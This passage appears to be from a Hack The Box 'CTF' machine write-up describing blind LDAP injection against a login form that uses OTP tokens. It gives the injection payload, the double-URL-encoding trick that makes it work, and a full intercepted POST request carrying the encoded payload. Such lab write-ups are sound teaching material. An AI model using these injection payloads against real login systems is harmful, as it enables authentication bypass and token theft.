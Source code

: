 ```
Finishing pending requests...
```
<br>  It worked and I didn't get banned, after some time I got a result which was `ldapuser`, that's weird. I also noticed that payloads that had special characters in them caused different response length. I tried `ldapuser` to see what's the other message :
![](/images/hackthebox/ctf/6.png)
<br>
<br>
![](/images/hackthebox/ctf/7.png)
<br> It was "Cannot login"
<br> Then I tried `!@#%^&*` and I got nothing, I just got the login page back again without any messages. I figured out that the username is being used in an `ldap` query, and it's injectable (because of the special chars payloads). Also that existing attribute where the token is stored is an `ldap` attribute. With the injection we have we can extract the token and use it to generate valid `OTP`s. But because the injection is blind it will be kinda tricky to extract the token.
<br>
<hr>
## LDAP Injection
<br> As I said, it's a blind injection which means that we won't get any results. But a payload like this :`*)(uid=*))(|(uid=*`  should result in "Cannot login". However when I tried it I didn't get any message, So I tried to URL encode the payload and it worked. So the injection works when the payload is double URL encoded (I only encoded the payload once because the browser automatically encodes POST data). I switched to burp, here are the results :
<br> Request :
```
POST /login.php HTTP/1.1
Host: ctf.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.htb/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Cookie: PHPSESSID=sqmpanb3d1uui0pf4uafubv010
Connection: close
Upgrade-Insecure-Requests: 1

inputUsername=%25%32%61%25%32%39%25%32%38%25%37%35%25%36%39%25%36%34%25%33%64%25%32%61%25%32%39%25%32%39%25%32%38%25%37%63%25%32%38%25%37%35%25%36%39%25%36%34%25%33%64%25%32%61&inputOTP=0000
```
<br> Response :
```
```